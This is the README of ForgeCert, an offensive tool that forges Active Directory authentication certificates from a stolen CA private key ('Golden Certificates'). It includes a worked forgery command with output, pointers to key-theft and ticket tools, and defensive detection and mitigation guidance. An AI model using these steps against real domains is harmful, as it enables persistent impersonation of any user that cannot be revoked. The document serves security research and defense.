

# ForgeCert

ForgeCert uses the [BouncyCastle C# API](https://www.bouncycastle.org/csharp/index.html) and a stolen Certificate Authority (CA) certificate + private key to forge certificates for arbitrary users capable of authentication to Active Directory.

This attack is codified as `DPERSIST1` in our ["Certified Pre-Owned" whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf). This code base was released ~45 days after the whitepaper was published.

[@tifkin_](https://twitter.com/tifkin_) is the primary author of ForgeCert.

[@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) are the primary authors of the associated Active Directory Certificate Service research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).


## Background

As described in the `Background` and `Forging Certificates with Stolen CA Certificates - DPERSIST1` sections of our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf), the private key for a Certificate Authority's CA certificate is protected on the CA server either via DPAPI or hardware (HSM/TPM). Additionally, the certificate (sans private key) is published to the **NTAuthCertificates** forest object, which defines CA certificates that enable authentication to AD. Put together, a CA whose certificate is present in **NTAuthCertificates** uses its private key to sign certificate signing requests (CSRs) from requesting clients. This graphic summarizes the process:



The security of the CA's private key is paramount. As mentioned, if the private key is not protected by a hardware solution like a TPM or a HSM, the key will be encrypted with the Data Protection API (DPAPI) and stored on disk on the CA server. If an attacker is able to compromise a CA server, they can extract the private key for any CA certificate not protected by hardware by using [@gentilkiwi](https://twitter.com/gentilkiwi/)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) or GhostPack's [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) project. `THEFT3` in the whitepaper describes this process for machine certificates.

Because the only key material used to sign issued certificates is the CA's private key, if an attacker steals such a key (for a certificate in **NTAuthCertificates**) they can forge certificates capable of domain authentication. These forged certificates can be for any principal in the domain (though the account needs to be "active" for authentication to be possible, so accounts like krbtgt will not work) and the certificates will be valid for as long as the CA certificate is valid (usually 5 years by default but can be set to be longer).

Also, as these certificates are not a product of the normal issuance process, the CA is not aware that they were created. Thus, the certificates [cannot be revoked](https://twitter.com/gentilkiwi/status/1154685386968506368).

**Note:** the private key for ANY CA certificate in **NTAuthCertificates** (root or subordinate CA) can be used to forge certificates capable of authentication in the forest. If the certificate/key is from a subordinate CA, a legitimate CRL for verification of the certificate chain must be supplied.

ForgeCert uses the [BouncyCastle's X509V3CertificateGenerator](https://people.eecs.berkeley.edu/~jonah/bc/org/bouncycastle/x509/X509V3CertificateGenerator.html) to perform the forgeries.


### Command Line Usage

```
C:\Temp>ForgeCert.exe
ForgeCert 1.0.0.0
Copyright c  2021

ERROR(S):
  Required option 'CaCertPath' is missing.
  Required option 'SubjectAltName' is missing.
  Required option 'NewCertPath' is missing.
  Required option 'NewCertPassword' is missing.

  --CaCertPath         Required. CA private key as a .pfx or .p12 file

  --CaCertPassword     Password to the CA private key file

  --Subject            (Default: CN=User) Subject name in the certificate

  --SubjectAltName     Required. UPN of the user to authenticate as

  --NewCertPath        Required. Path where to save the new .pfx certificate

  --NewCertPassword    Required. Password to the .pfx file

  --CRL                ldap path to a CRL for the forged certificate

  --help               Display this help screen.

  --version            Display version information.

```

## Usage

**Note**: for a complete walkthrough of stealing a CA private key and forging auth certs, see `DPERSIST1` in the [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf).

Context:

* The stolen CA's certificate is `ca.pfx`, encrypted with a password of `Password123!`
* The subject is arbitrary since we're specifying a subject alternative name for the certificate.
* The subject alternative name (i.e., the user we're forging a certificate for), is `localadmin@theshire.local`.
* The forged certificate will be saved as `localadmin.pfx`, encrypted with the password `NewPassword123!`

```
C:\Tools\ForgeCert>ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Password123!" --Subject "CN=User" --SubjectAltName "localadmin@theshire.local" --NewCertPath localadmin.pfx --NewCertPassword "NewPassword123!"
CA Certificate Information:
  Subject:        CN=theshire-DC-CA, DC=theshire, DC=local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     1/4/2021 10:48:02 AM
  End Date:       1/4/2026 10:58:02 AM
  Thumbprint:     187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
  Serial:         14BFC25F2B6EEDA94404D5A5B0F33E21

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: localadmin@theshire.local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     7/26/2021 3:38:45 PM
  End Date:       7/26/2022 3:38:45 PM
  Thumbprint:     C5789A24E91A40819EFF7CFD77150595F8B9878D
  Serial:         3627A48F90F6869C3215FF05BC3B2E42

Done. Saved forged certificate to localadmin.pfx with the password 'NewPassword123!'
```

This forgery can be done on an attacker-controlled system, and the resulting certificate can be used with [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT (and/or retrieve the user's NTLM ;)


## Defensive Considerations

The [TypeRefHash](https://www.gdatasoftware.com/blog/2020/06/36164-introducing-the-typerefhash-trh) of the current ForgeCert codebase is b26b451ff2c947ae5904f962e56facbb45269995fbb813070386472f307cfcf0.

The TypeLib GUID of ForgeCert is **bd346689-8ee6-40b3-858b-4ed94f08d40a**. This is reflected in the Yara rules currently in this repo.

See `PREVENT1`, `DETECT3`, and `DETECT5` in our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) for prevention and detection guidance.

[Fabian Bader](https://twitter.com/fabian_bader) published a [great post on how to mitigate many uses of "Golden Certificates"](https://cloudbrothers.info/en/golden-certificate-ocsp/) through OSCP tweaks. Note thought that in the **Final Thoughts** section he mentions `This method is not bulletproof at all. Since the attacker is in charge of the certificate creation process, she could just change the serial number to a valid one.` This was implemented in [his PR](https://github.com/GhostPack/ForgeCert/commit/a202e03d7cee48413514c8659ad042a7f546d94b), though remember that by default the serial number will be randomized, meaning the OSCP prevention should work in many cases and is worth implementing in our opinion.

We believe there may opportunities to build Yara/other detection rules for types of forged certificates this project produces - if any defensive researchers find a good way to signature these files, please let us know and we will update the Yara rules/defensive guidance here.


## Reflections

There is a clear parallel between "Golden Tickets" (forged TGTs) and these "Golden Certificates" (forced AD CS certs). Both the krbtgt hash and CA private key are cryptographic material critical to the security of an Active Directory environment, and both can be used to forge authenticators for arbitrary users. However, while the krbtgt hash can be retrieved remotely over DCSync, a CA private key must (at least as far as we know) be recovered through code execution on the CA machine itself. While a krbtgt hash can be rotated _relatively_ easily, rotating a CA private key is significantly more difficult.

On the subject of public disclosure, we self-embargoed the release of our offensive tooling (ForgeCert as well as [Certify](https://github.com/GhostPack/Certify)) for ~45 days after we published our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) in order to give organizations a chance to get a grip on the issues surrounding Active Directory Certificate Services. However, we have found that organizations and vendors have historically often not fixed issues or built detections for "theoretical" attacks until someone proves something is possible with a proof of concept.

This is reflected in some people's reaction to the research of `this IS StUPId, oF COurse YoU Can FORge CERts WITH ThE ca PriVAtE KeY.` To which we state, yes, many things are possible, but `PoC||GTFO`
